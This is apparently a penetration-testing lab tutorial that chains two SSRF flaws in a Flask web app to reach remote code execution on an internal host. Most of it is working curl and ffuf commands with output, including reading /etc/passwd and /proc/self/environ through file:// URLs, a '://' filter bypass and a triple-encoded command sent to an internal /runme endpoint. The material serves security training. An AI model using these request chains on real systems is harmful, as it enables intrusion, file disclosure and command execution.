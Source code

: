 In this example, we will be exploiting an internet-facing web application and work to get remote code execution on an internal host by chaining multiple SSRF vulnerabilities. The attack flow shall be as follows:
```
PENTESTER -> SSRF on Internet-facing App -> SSRF on Internal Web Server -> RCE on Local Web App.
```
First we issue a cURL request to the target server using the parameters `-i` to show the protocol response headers, `-s` to use the silent mode, and `-L` to follow any redirects.
```bash
curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
## Testing for SSRF
Then we confirm if the `q` parameter is vulnerable to SSRF by starting up a Netcat listener, as follows:
```bash
nc -nvlp 4444
```
```bash
curl -i -s "http://<TARGET IP>/load?q=http://<OUR IP>:4444"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```
## Confirming SSRF
Checking into our Netcat listener, we can see that the target application made a request, confirming a SSRF vulnerability.
```bash
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <OUR IP>:4444
User-Agent: Python-urllib/3.8
Connection: close
```
Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.
## Retrieve local file using FTP schema
We can test this functionality by requesting for the `/etc/passwd` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[TRIM]...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...[TRIM]...
```
## Port Scanning for Internal Apps using Ffuf
Next we will perform a port scan to look for any internal applications that we can exploit.

1. But first, we should generate a port wordlist using the following:
```bash
for port in {1..65535}; do echo $port >> ports.txt; done
```
2. We will then use Ffuf to fuzz for any open ports.
```bash
ffuf -w ports.txt -u "http://<TARGET IP>/load?q=http://127.0.0.1:FUZZ" -fs 30

...[TRIM]...
80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```
3. Confirm that port 5000 is working.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
## Attacking Internal Web App
Now that we know how to reach internal applications, we can now try attacking `internal.app.local` to try and achieve RCE on an internal host.
> Note: In the next steps, we will be issuing requests on behalf of `ubuntu-web` to `internal.app.local`, resulting in two SSRF vulnerabilities being chained.

1. Issue a simple cURL request to the internal application, we can use the `q` parameter on this one since we discovered earlier that it uses the same process to load resources.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>
```
2. It seems the web application is removing `://` from our request. Let's try to overcome this situation by modifying the URL, instead of `http://` our request will now contain `http::////`.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>
```
> Note: For the purpose of this tutorial, we will assume ports `80` and `5000` is also open for the internal app, but for real world pentest, it is recommended to do another port scan to confirm which ports are open.
### Reading Internal App's Source Code
Let us now uncover the source code of the web applications listening on `internal.app.local` to see how we can achieve remote code execution. But first we must first identify our current working directory by issuing a request to disclose the `/proc/self/environ` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 584
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 16:52:20 GMT

<html><body><h1>Resource: file:///proc/self/environ</h1><a>HOSTNAME=18f236843662PYTHON_VERSION=3.8.12PWD=/appPORT=80...[TRIM]...
```
Now that we know we are in the `/app` directory, we can now issue the full URL to read the source code
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 771
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:40:28 GMT

<html><body><h1>Resource: file:///app/internal_local.py</h1><a>import os
from flask import *
import urllib
import subprocess

...[TRIM]...

@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
</a></body></html>
```
### Achieving RCE
We notice a functionality that allows us to execute commands on the remote host sending a GET request to`/runme?x=<CMD>`. Let us confirm remote code execution by sending `uname -a` as a command.
```bash
curl -i -s "http://10.129.123.4/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname%252520-a%25250A%250A%0A"
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 195
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Sun, 10 Mar 2024 12:23:23 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=uname%20-a%0A
</h1><a>Linux f53c1f1e6368 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 GNU/Linux
 </a></body></html>
```
> Note: For the purpose of this tutorial, we skipped the testing for filters and WAFs, the payload is encoded using `jq` three times using the following command:
> `echo "uname -a" | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri`

With this, we have now achieve RCE into the internal host.